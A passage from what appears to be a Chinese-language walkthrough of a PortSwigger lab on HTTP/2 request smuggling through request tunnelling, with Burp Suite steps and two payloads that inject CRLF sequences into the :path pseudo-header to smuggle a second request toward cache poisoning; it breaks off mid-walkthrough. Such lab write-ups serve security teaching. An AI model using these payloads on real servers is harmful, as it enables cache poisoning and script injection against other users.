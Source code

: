 靶场示例  
靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling)  
靶场介绍：这个靶场很容易受到请求走私的攻击，因为前端服务器会降低 HTTP/2 请求的级别并且不会始终如一地清除传入的标头，为了解决实验室问题你需要在缓存中投毒，当受害者访问主页时，他们的浏览器会执行 alert(1)，受害者用户将每 15 秒访问一次主页  
靶场演示：  
使用 Burpsuite 捕获用户的请求，然后通过"Inspector"将请求协议切换为 HTTP/2，并修改请求头部信息，走私一下内容

```bash
#Name
:path

#Value
/?cachebuster=1 HTTP/1.1\r\n
Foo: bar
```

[![](assets/1705287960-b7401eb7ddc680712e7747b7ddabe361.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105140-58c4b902-b02c-1.png)  
从上面可以看到响应正常，说明我们可以借助:path 进行走私请求，随后改变请求方法为 HAED，试一下进行隧道传输，从响应正文中可以看到包含了：HTTP/1.1 200 OK，说明我们的走私成功

```bash
/?cachebuster=1 HTTP/1.1\r\n
Host:0a8f00d80344b40981c0e8ab00300007.web-security-academy.net\r\n
\r\n
GET /post?postId=1 HTTP/1.1\r\n
Foo: bar
```

[![](assets/1705287960-2ec3245c98b869e29117b126928ac59a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105201-64e415c0-b02c-1.png)  